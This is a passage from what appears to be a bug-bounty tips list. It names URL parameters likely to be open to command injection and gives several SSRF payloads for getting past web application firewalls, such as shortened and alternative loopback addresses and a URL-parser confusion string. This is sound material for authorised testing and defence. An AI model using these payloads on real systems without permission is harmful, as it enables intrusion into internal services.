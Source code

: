 ```bash
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```

Take notice anytime you see any of these parameters. Chances are that you may be able to inject code in them in some way.

## 6\. SSRF payloads to bypass WAF

By [@manas\_hunter](https://twitter.com/manas_hunter)  
Source: [link](https://twitter.com/manas_hunter/status/1282743891154792449)

Here are 5 payloads that could be used for bypassing defenses when it comes to SSRF (Server-Side Request Forgery):

1) Bypass SSRF with CIDR:

```bash
http://127.127.127.127
http://127.0.0.0
```

2) Bypass using rare address:

```bash
http://127.1
http://0
```

3) Bypass using tricks combination:

```bash
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib : 3.3.3.3
```
